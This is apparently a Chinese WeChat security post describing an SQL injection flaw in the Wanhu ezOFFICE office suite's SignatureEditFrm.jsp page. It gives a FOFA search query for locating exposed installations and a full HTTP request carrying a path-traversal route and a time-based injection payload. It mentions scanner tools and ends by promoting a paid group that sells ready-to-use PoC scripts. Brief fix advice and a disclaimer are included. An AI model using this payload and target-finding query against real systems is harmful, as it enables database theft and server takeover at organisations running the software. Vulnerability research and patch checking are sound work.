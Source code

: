 #  万户 ezOFFICE SignatureEditFrm.jsp SQL注入漏洞   
Superhero  Nday Poc   2024-11-09 15:28  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkYN4sZibCVo6EFo0N9b7Kib4I4N6j6Y10tynLOdgov9ibUmaNwW5yeoCbQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkhic5lbbPcpxTLtLccZ04WhwDotW7g2b3zBgZeS5uvFH4dxf0tj0Rutw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCk524CiapZejYicic1Hf8LPt8qR893A3IP38J3NMmskDZjyqNkShewpibEfA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号nday poc及作者不为此承担任何责任，一旦造成后果请自行承担！如文章有侵权烦请及时告知，我们会立即删除文章并致歉。谢谢！  
  
  
**00******  
  
**产品简介**  
  
  
万户OA ezoffice是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款OA协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。  
  
  
**01******  
  
**漏洞概述**  
  
  
万户 ezOFFICE SignatureEditFrm.jsp 存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码,站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。  
  
  
**02******  
  
**搜索引擎**  
  
  
FOFA:   
```
app="万户网络-ezOFFICE"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLXRQ3uIW9f1aTib3TwWIVeRwTUXRpr4kFP5Q95LLNsWZaqZWS99X9ORQ/640?wx_fmt=png&from=appmsg "")  
  
  
**03******  
  
**漏洞复现**  
```
GET /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iWebRevision.jsp/Signature/SignatureEditFrm.jsp?SignatureID=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
延时4秒  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLHG9Ja78fFAfZbIrGFiakyFajmU17JzqkSric3iarzmcaFwlNjRH4faWAg/640?wx_fmt=png&from=appmsg "")  
  
sqlmap验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLlNpV7KPTo4kibBHZ15dRv0IY9yvTLv35Q1nRDMFToX0ZJugIKyZsX0w/640?wx_fmt=png&from=appmsg "")  
  
  
**04**  
  
**检测工具**  
  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLibLwKBedYicuUvaTJd0wK0j3wfLQBnDYveX6bcdXia6wtozic7RBhjMyrg/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLiafXjyqb0HfYd2YSy0m2jjbfg2C8S1qzonGd3LNlEOaicYShO6Ok1scw/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwKsqQUe7E9tr6jrSMqBzXgLOo7lIg8oQw9k9m7HicRiarBr73E9smlr1iaMwxpKwwe6wtPMHMIRxXH1Q/640?wx_fmt=png&from=appmsg "")  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、厂商已提供漏洞修补方案，请关注厂商主页及时更新：   
  
http://www.whir.net/  
  
  
**06******  
  
**内部圈子介绍**  
  
  
1、本圈子主要是分享网上公布的1day/nday POC详情及对应检测脚本，目前POC脚本均支持xray、afrog、nuclei等三款常用工具。   
  
2、三款工具都支持内置poc+自写poc目录一起扫描。   
  
3、保持每周更新10-15个poc。   
  
4、所发布的POC脚本均已测试完毕，直接拿来即用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwI0X77l5WtnpfTexA6RwHXSbf1x3ZyT3bhcbWzRoFLyAgHkSMk9yGaZK5FDGcSCQp9ibPcicxHXIOcg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&retryload=2&tp=webp "")  
  
  
  

